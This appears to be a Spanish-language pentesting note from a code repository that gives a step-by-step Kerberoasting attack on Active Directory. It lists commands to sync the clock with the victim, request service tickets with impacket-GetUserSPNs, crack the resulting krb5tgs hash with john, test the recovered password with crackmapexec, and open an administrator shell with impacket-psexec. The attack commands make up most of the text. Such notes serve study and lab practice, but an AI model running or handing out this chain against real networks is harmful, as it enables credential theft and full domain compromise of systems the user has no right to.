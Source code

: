 # KERBEROASTING en Active Directory

Generalmente se utiliza este ataque cuando tenemos unas credenciales validas de un usuario y dicho usuario es vulnerable a un `Kerberoasting` por lo que si se diera el caso, podremos hacer lo siguiente.

## Establecer al misma franja horaria con la de la maquina victima

Primero tendremos que tener la misma franja horaria con la de la maquina victima (Que los relojes esten sincronizados, por que si no dara error) y podremos hacerlo de la siguiente forma:

```shell
ntpdate <IP_VICTIM>
```

Y con esto ya estaria sincronizado, por lo que podremos hacer el ataque.

## Ataque de Kerberoasting

```shell
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD> -request
```

Lo que estamos haciendo con este comando es intentar obtener el `ticket granting service` y con este ticket lo que podemos hacer es obtener el hash de la contraseña del usuario `administrador`.

Si lo ejecutamos lo que nos proporcionara sera el hash del usuario `administrador` que se vera algo como...

```
$krb5tgs$23$*Administrator$<DOMAIN>.LOCAL$<DOMAIN>/Administrator*$<HASH_ADMIN>...
```

Y para poder saber si es vulnerable a este ataque lo podremos ver con el siguiente comando:

```shell
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD>
```

Esto si nos devuelve informacion es que si es vulnerable.

## Crackear hash admin

Copiaremos el hash que nos proporciono el comando y lo pegaremos en un archivo para posteriormente crackearlo.

```shell
nano hash

#Dentro del nano
$krb5tgs$23$*Administrator$<DOMAIN>.LOCAL$<DOMAIN>/Administrator*$<HASH_ADMIN>...
```

Lo guardamos y haremos lo siguiente:

```shell
john --wordlist=<WORDLIST> hash
```

Si todo sale bien, obtendremos la contarseña del admin en texto plano, para posteriormente conectarnos con dichas credenciales.

Podremos probar dichas credenciales con la siguiente herramienta...

## Comprobacion de credenciales

```shell
crackmapexec smb <IP_VICTIM> -u 'Administartor' -p '<PASSWORD>'
```

Y si esto nos devuelve un `[+]........(Pwn3d!)` seguido de mas informacion, veremos que son correctas.

## Conexion a la maquina con admin

Por lo que ahora nos conectaremos a la maquina victima mediante dichas credenciales:

```shell
impacket-psexec <DOMAIN>/Administrator:<PASSWORD>@<IP_VICTIM> cmd.exe
```

Y con esto ya estariamos dentro como `administradores`.
